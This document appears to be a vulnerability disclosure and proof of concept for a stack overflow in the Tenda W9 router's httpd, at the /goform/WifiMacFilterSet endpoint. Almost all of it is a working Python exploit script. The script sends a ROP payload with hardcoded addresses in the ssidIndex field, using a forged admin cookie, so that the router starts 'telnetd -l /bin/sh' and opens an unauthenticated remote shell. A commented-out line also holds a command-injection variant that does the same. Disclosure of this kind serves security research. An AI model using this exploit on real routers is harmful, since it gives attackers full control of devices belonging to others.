


# Tenda W9 Stack Overflow

**Vender** ：Tenda

**Firmware version**:V1.0.0.7(4456)_CN

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/


## POC

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formWifiMacFilterSet` function, which can be accessed via the URL `/goform/WifiMacFilterSet`




When we send packets, the router will be shell

```
#!/usr/bin/env python
# -*- coding: UTF-8 -*-


import sys
import time
import string
import socket
from random import Random
import urllib, urllib2, httplib
from pwn import *

 
class HTTP:
    HTTP = 'http'
 
    def __init__(self, host, proto=HTTP, verbose=False):
        self.host = host
        self.proto = proto
        self.verbose = verbose
        self.encode_params = True
 
    def Encode(self, data):
        
        if type(data) == dict:
            pdata = []
            for k in data.keys():
                pdata.append(k + '=' + data[k])
            data = pdata[1] + '&' + pdata[0]
        else:
            data = urllib.quote_plus(data)
        return data
 
    def Send(self, uri, headers={}, data=None, response=False,encode_params=True):
        html = ""
        if uri.startswith('/'):
            c = ''
        else:
            c = '/'
 
        url = '%s://%s' % (self.proto, self.host)
        uri = '/%s' % uri
        if data is not None:
            data = self.Encode(data)
        #print data
        if self.verbose:
            print url
        httpcli = httplib.HTTPConnection(self.host, 80, timeout=30)
        httpcli.request('POST',uri,data,headers=headers)
        response=httpcli.getresponse()
        print response.status
        print response.read()
 
if __name__ == '__main__':
    #payload='b'*0x10+"pingaaaaaaaaaa||telnetd -p 3333 -l /bin/sh ||echo aaa"+'b'*0x3d+p32(0x11111111)+p32(0x77df8000+0x060320)+p32(0x4B43A0)
    payload='b'*0x13f+p32(0x77df7000+0x7FFF0)+p32(0x77df7000+0x054C18)+p32(0x77df7000+0x080118)*4
    payload+='a'*32+p32(0x77df7000+0x60320)*2+p32(0x22222222)*3+p32(0x77df7000+0x19204)+p32(0x22222222)*6+'telnetd -p 3334 -l /bin/sh      '   
    ip = '192.168.0.254'  
    # 构造http数据包

    pdata = {
        'filterMode':'bbbb',
        'ssidIndex'  :   payload #0x004b4000

        }

    header = {
        'Cookie'        : 'w9v1_user=admin;',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'User-Agent'    : 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)'
        }
    # 发起http请求
    try:
        HTTP(ip).Send('/goform/WifiMacFilterSet', data=pdata,headers=header,encode_params=False,response=True)
        print '[+] execute ok'
    except httplib.BadStatusLine:
        print "Payload deliverd."
    except Exception,e:
        print "2Payload delivery failed: %s" % str(e)


```





